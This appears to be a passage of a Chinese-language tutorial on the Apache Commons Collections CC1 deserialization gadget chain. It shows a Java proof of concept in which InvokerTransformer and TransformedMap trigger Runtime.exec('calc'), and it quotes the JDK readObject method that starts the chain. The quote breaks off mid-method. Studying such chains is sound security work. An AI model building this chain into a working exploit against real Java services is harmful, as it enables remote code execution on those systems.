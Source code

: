 ```java
package com.mewhz.cc1;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {

        Runtime runtime = Runtime.getRuntime();
        // 获取 Runtime 对象

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        // 创建 InvokerTransformer 作为要使用的类

        HashMap<Object, Object> map = new HashMap();
        // 创建 Map 作为要使用的类

        map.put("key", "value");
        // 赋值 方便后续遍历

        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, invokerTransformer);
        // 修饰 map，把它 value 加上 invokerTransformer 方法

        for (Map.Entry entry : transformedMap.entrySet()) {
            // 使用 foreach 获取 map 中每个键值对 (entry)
            entry.setValue(runtime);
            // 赋值，由于赋值时会把 value 的值传递给 checkSetValue 方法
            // 于是传递 runtime 以便后续 invoke
        }

    }
}
```

继续通过**查找用法**寻找哪个方法调用 `setValue` 方法，最终在 `AnnotationInvocationHandler` 类的 `readObject` 方法中找到了调用 `setValue` 的地方，也就是链首。 

```java
// AnnotationInvocationHandler
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject();

    // Check to make sure that types have not evolved incompatibly

    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();

    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
```